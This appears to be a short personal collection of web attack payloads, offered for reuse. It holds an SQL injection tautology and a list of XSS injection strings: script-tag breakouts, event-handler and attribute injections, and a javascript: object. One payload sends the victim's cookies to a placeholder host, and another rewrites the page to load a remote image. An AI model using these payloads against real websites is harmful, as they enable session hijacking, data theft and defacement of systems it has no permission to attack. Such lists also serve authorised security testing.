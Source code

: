 ## This will be a collection of XSS JavaScript Payloads I have used

SQL payload
' OR 1='1




XSS Payloads
</script><script>alert(1)</script>
"><h1>test</h1>
'+alert(1)+'
"onmouserover="alert(1)
http://"onmouseover="alert(1)
<body onload=alert(1)>

<img src=1 onerror=alert(1)>

<svg onload=alert(1)>

<x onmouseover=alert(1)>
<object data=javascript:alert(1)>

<script>alert(document.domain)</script>


<svg onload=fetch('//HOST/?cookie='+document.cookie)>

<svg onload="document.body.innerHTML='<img src=//HOST/IMAGE>'">


